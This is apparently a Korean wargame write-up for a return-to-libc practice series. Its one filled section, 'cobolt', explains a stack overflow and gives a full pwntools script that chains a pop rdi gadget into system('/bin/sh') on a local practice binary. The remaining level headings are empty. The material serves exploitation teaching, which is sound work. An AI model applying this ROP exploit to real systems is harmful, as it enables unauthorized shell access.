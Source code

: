 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin





## gremlin



## orc




## wolfman
